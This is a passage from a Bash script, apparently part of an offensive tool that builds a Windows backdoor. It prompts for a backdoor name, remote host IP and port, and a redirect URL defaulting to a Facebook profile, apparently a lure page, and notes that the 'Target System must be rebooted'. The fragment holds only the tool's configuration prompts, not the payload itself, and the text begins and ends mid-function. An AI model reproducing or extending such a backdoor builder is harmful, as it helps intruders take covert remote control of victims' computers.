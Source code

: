 }

settings2() {

default_payload_name="shellc"
default_url="https://www.facebook.com/profile.php?id=100039477441223"
#printf "\e[1;91m----------------------\e[0m\n"
#printf "\e[1;91m| Configuration:     |\e[0m\n"
#printf "\e[1;91m| {+} RHOST IP: \e[0m\e[1;77m%s\e[0m\e[1;91m   |\e[0m\n" $custom_ip
#printf "\e[1;91m| {+} RHOST PORT: \e[0m\e[1;77m%s\e[0m\e[1;91m |\e[0m\n" $custom_port
#printf "\e[1;91m----------------------\e[0m\n"
#read -p $'\n\e[1;92m{\e[0m\e[1;77m+\e[0m\e[1;92m} SET THE ABOVE CONFIGURATION ? (1/0) \e[0m\n=>>> ' ask_configuration 

#if [[ $ask_configuration -eq 1 ]]; then
printf '\e[1;33m{\e[0m\e[1;77m+\e[0m\e[1;33m} Win_Backdoor_Name (shellc):\e[0m\n=>>> '

read payload_name
payload_name="${payload_name:-${default_payload_name}}"
printf "\e[1;91m----------------------------------\e[0m\n"
printf "\e[1;91m| Configuration:                 |\e[0m\n"
printf "\e[1;91m| {+} RHOST IP: \e[0m\e[1;77m%s\e[0m\e[1;91m                |\e[0m\n" $custom_ip
printf "\e[1;91m| {+} RHOST PORT: \e[0m\e[1;77m%s\e[0m\e[1;91m              |\e[0m\n" $custom_port
printf "\e[1;91m| {+} Backdoor: \e[0m\e[1;77m%s\e[0m\e[1;91m           |\e[0m\n" $payload_name
printf "\e[1;91m| {-} P_FORWARDING: Disabled \e[0m\e[1;77m%s\e[0m\e[1;91m    |\e[0m\n" 
printf "\e[1;91m----------------------------------\e[0m\n"

printf '\e[1;33m{\e[0m\e[1;77m+\e[0m\e[1;33m} Redirect URL To: \e[0m\n=>>> ' 
read url
url="${url:-${default_url}}"

#if [[ $ask_configuration -eq 1 ]]; then
#continue
#else 
#printf "\e[1;91m----------------------\e[0m\n"
}





start() {

if [[ -e ip.txt ]]; then
rm -f ip.txt
fi

printf "\n"

printf "\e[1;92m{\e[0m\e[1;77m-\e[0m\e[1;92m}\e[0m\e[1;93m Target System must be rebooted! ;))\e[0m\n"
#printf "\e[1;92m{\e[0m\e[1;77m+\e[0m\e[1;92m}\e[0m\e[1;93m Do You Wanna Do Port Forwarding? (y/n)\e[0m\n"
printf "\e[1;91m------------------------------------\e[0m"
default_option_server="0"
read -p $'\n\e[1;92m{\e[0m\e[1;77m+\e[0m\e[1;92m} Do You Wanna Execute on LServer? (1/0) \e[0m\n=>>> ' option_server
option_server="${option_server:-${default_option_server}}"
if [[ $option_server -eq 0 ]]; then
